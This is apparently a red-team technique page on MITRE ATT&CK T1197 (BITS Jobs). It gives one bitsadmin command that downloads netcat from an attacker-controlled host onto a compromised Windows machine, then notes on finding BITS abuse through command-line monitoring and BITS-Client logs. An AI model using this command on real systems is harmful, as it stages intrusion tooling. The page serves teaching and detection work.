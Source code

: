 ```yaml
---
description: File upload to the compromised system.
---
```


# T1197: BITS Jobs

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../.gitbook/assets/bits-operational-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}

